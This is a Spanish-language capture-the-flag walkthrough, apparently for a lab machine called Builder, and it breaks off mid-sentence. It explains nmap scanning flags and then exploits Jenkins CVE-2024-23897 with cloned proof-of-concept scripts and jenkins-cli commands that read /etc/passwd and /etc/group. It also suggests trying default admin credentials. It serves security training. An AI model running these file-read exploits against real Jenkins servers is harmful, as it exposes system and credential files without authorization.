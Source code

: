 
---
# Resolución de la maquina **BUILDER**
---

- Empezamos creando nuestras carpetas que contengan nuestros registros de nmap, scripts, exploits, content.
```
mkt
```

- Ingresamos a nuestra carpeta de nmap y realizamos un ping y escaneo a la red.
```
ping -c 1 10.10.11.10
```
- Con el siguiente comando registraremos la información en el archivo allPorts
```
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.11.10 -oG allPorts
```

Desglosemos la línea de comandos:

1. `nmap`: Este es el comando principal que invoca Nmap, una herramienta de código abierto para la exploración de redes y auditoría de seguridad.
    
2. `-p-`: Esto le dice a Nmap que escanee todos los puertos (1-65535). El guion ("dash") indica un rango de puertos.
    
3. `-sS`: Especifica el tipo de escaneo a realizar, en este caso, un escaneo de tipo TCP SYN (SYN scan). Este tipo de escaneo envía un paquete SYN al puerto de destino y espera una respuesta SYN/ACK si el puerto está abierto.
    
4. `--open`: Esta opción indica a Nmap que solo muestre los puertos que están abiertos en el escaneo.
    
5. `--min-rate 5000`: Esto establece la velocidad mínima de envío de paquetes. En este caso, se están enviando al menos 5000 paquetes por segundo.
    
6. `-vvv`: Esta opción activa el modo de verbosidad máximo, lo que significa que Nmap proporcionará una salida muy detallada, mostrando incluso información de depuración adicional.
    
7. `-n`: Indica a Nmap que no realice resolución de DNS inversa en las direcciones IP encontradas durante el escaneo.
    
8. `-Pn`: Esta opción le dice a Nmap que no realice la detección de hosts, lo que significa que no intentará determinar si el host objetivo está activo antes de realizar el escaneo.
    
9. `10.10.11.10`: Esta es la dirección IP del host que se va a escanear.
    
10. `-oG allPorts`: Especifica el formato de salida del escaneo. En este caso, la opción `-oG` genera una salida en formato "greppable" que puede ser procesada posteriormente con herramientas como grep. El archivo de salida se llamará "allPorts".

- Ahora con la herramienta **extractPorts** usamos el archivo grepeaple.
```
extractPorts allPorts
```

- Realizamos un escaneo con **nmap** a los puertos detectados en la dirección ip destino.
```
nmap -p22,8080 -sCV 10.10.11.10 -oN targeted 
```

- `-p22,8080`: Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 22 (utilizado comúnmente para SSH) y 8080 (a menudo utilizado para servicios web alternativos u otros fines).
    
- `-sC`: Esta opción activa el script predeterminado de escaneo y detección de versiones. Esto significa que Nmap ejecutará una serie de scripts integrados para detectar versiones de servicios y obtener información adicional sobre ellos.
    
- `-sV`: Esta opción solicita a Nmap que realice la detección de versiones en los servicios que descubre durante el escaneo de puertos. Esto significa que intentará determinar qué versiones de software están siendo ejecutadas en los puertos abiertos.
    
- `10.10.11.10`: Esta es la dirección IP del objetivo que se está escaneando. En este caso, el escaneo de puertos y servicios se realizará en el dispositivo con la dirección IP 10.10.11.10.
    
- `-oN targeted`: Esta opción especifica el formato y el nombre del archivo de salida del escaneo. En este caso, el resultado se guardará en un archivo llamado "targeted" en un formato específico que se puede procesar posteriormente.

- Ya con esta información podríamos investigar mas con la información que nos muestra con la versión del Ubuntu
**OpenSSH 8.9p1 Ubuntu 3ubuntu0.6**
- Investigando con la página **launchpad** nos damos cuenta que estamos con la versión Jammy de Ubuntu 
**JAMMY**
- El siguiente comando nos permite ver el contenido de manera java 
```
cat targeted -l java
```

- A continuación empezamos a utilizar la herramienta **whatweb**
```
whatweb http://10.10.11.10:8080
```

- Con el siguiente comando podemos escanear las directorios existentes con la herramienta de **nmap**
```
nmap --script http-enum -p8080 10.10.11.10 -oN webScan
```

- `--script http-enum`: Esta opción indica a Nmap que ejecute el script `http-enum` durante el escaneo. Este script se utiliza para identificar y enumerar recursos y directorios en un servidor web que responde a peticiones HTTP. La enumeración de estos recursos puede revelar información sobre la estructura del sitio web y posiblemente exponer puntos de entrada para posibles vulnerabilidades.
    
- `-p8080`: Esta opción especifica el puerto que se va a escanear. En este caso, estás escaneando el puerto 8080, que es comúnmente utilizado para servidores web alternativos o servicios web adicionales.
    
- `10.10.11.10`: Esta es la dirección IP del objetivo que se está escaneando. En este caso, el escaneo se realizará en el dispositivo con la dirección IP 10.10.11.10.
	
- `-oN`: Esta es una opción de Nmap que se utiliza para especificar el formato y el nombre del archivo de salida del escaneo.
    
- `webScan`: Este es el nombre del archivo de salida donde se guardarán los resultados del escaneo. En este caso, el archivo se llamará "webScan".

- A continuación podemos empezar a investigar la pagina web montada en el puerto 8080
- Vemos que es una pagina de **Jenkins** y podemos buscar en el navegador **default password** como **admin/password**
- Podemos observar la versión de **Jenkins** en la parte inferior y con esto podemos averiguar en internet un exploit en caso de que este desactualizado 
- Analizamos la pagina y encontramos que tiene información de usuarios pero no da mas información, así que nos dirigimos a nuestra carpeta de scripts
- Nos clonamos el repositorio de CVE-2024-23897
```
git clone https://github.com/h4x0r-dz/CVE-2024-23897.git
```
- Si realizamos un cat al archivo **CVE-2024-23897.py** podemos analizar un poco del script a utilizar 

- Utilizamos la siguiente linea para observar información en ciertas rutas
```
python3 CVE-2024-23897.py -u http://10.10.11.10:8080 -f /etc/group
```
- En ocasiones toca volver a enviar la petición para que muestre otros resultados

- Tambien tenemos otro exploit que nos trae de local el recurso
```
git clone https://github.com/CKevens/CVE-2024-23897.git
```

- Con este comando podemos ejecutar whoami por ejemplo
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 who-am-i
```

- Si queremos leer archivos de una ruta podemos utilizar 
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help @/etc/passwd
```

- Con este comando podemos enlistar mas información detallada
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node @/etc/passwd
```




- Si no funciona de esa manera abrimos el burpsuite para ver un poco mas de información 
```
burpsuite &> /dev/null & disown
```
- En las configuraciones del proxy editamos en la ip el host de la pagina que vamos a utilizar con el puerto designado

- Nos clonamos 